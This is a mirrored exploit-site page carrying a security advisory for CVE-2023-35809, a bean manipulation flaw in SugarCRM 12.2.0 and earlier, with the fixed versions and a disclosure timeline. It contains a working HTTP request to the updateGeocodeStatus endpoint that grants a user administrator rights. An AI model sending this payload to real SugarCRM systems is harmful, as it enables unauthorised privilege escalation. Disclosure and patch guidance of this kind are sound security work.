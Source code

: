 ```yaml
---
title: SugarCRM 12.2.0 Bean Manipulation Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-39002&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-25
fetch_date: 2025-10-04T11:59:06.158639
---
```


# SugarCRM 12.2.0 Bean Manipulation Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for SugarCRM 12.2.0 Bean Manipulation Vulnerability CVE-2023-35809

2023-08-24 | CVSS 8.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-39002
------------------------------------------------------------------------
SugarCRM <= 12.2.0 (updateGeocodeStatus) Bean Manipulation Vulnerability
------------------------------------------------------------------------

[-] Software Link:

https://www.sugarcrm.com

[-] Affected Versions:

Version 12.2.0 and prior versions.
Version 12.0.2 and prior versions.
Version 11.0.5 and prior versions.

[-] Vulnerability Description:

The vulnerability is exploitable through the "/maps/updateGeocodeStatus"
REST API
endpoint. This might allow a malicious user to modify arbitrary Sugar
Beans, and that
could lead to a variety of security impacts, such as Privilege
Escalation attacks by
sending an HTTP request like the following:

POST /rest/v11_17/maps/updateGeocodeStatus HTTP/1.1
Host: sugarcrm_website
Content-Type: application/json
OAuth-Token: d4cd573b-3b24-44ae-8eab-6d3b525f7974
Content-Length: 96
Connection: close

{"id":"[USER_ID]","module":"Users","fieldName":"is_admin","status":1}

[-] Solution:

Upgrade to version 12.3.0, 12.0.3, 11.0.6, or later.

[-] Disclosure Timeline:

[14/02/2023] - Vendor notified
[12/04/2023] - Fixed versions released
[17/06/2023] - CVE number assigned
[23/08/2023] - Publication of this advisory

[-] CVE Reference:

The Common Vulnerabilities and Exposures project (cve.mitre.org)
has assigned the name CVE-2023-35809 to this vulnerability.

[-] Credits:

Vulnerability discovered by Egidio Romano.

[-] Original Advisory:

http://karmainsecurity.com/KIS-2023-06

[-] Other References:

https://support.sugarcrm.com/Resources/Security/sugarcrm-sa-2023-007/
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)